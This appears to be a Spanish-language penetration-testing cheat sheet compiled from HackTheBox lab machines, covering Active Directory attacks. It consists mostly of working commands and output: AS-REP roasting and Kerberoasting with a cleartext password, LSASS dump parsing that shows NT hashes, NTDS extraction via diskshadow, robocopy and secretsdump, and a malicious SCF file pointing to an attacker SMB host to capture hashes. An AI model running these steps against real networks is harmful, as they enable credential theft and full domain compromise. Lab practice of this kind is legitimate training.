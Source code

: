 # Metodología

## ASPRepRoast Attack
```null
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS
```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System
```null
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

#### Creación de unidad lógica temporal

**Fichero.txt**
```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

#### Procesación con DiskShadow
```null
diskshadow /s fichero.txt
```

#### Copia de RoboCopy
```null
robocopy /b z:\windows\ntds . ntds.bak
```

#### Dumpeo hashes NT,LM
```null
impacket-secretsdump -ntds ntds.dit -system system local
```

## Kerberoasting Attack

```null
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request
```

## SCF Malicioso

```null
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

## Microsoft Active Directory Certificate Services

### Generar certificados

```null
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

## Tráfico de Red

### Obtener clave SSL para importar en WireShark

```null
hflaccus@carpediem:/$ find \-name \*key 2>/dev/null | grep backdrop
./etc/ssl/certs/backdrop.carpediem.htb.key
```

```null
hflaccus@carpediem:/etc/ssl/certs$ ls | grep backdrop
backdrop.carpediem.htb.crt
backdrop.carpediem.htb.key
```

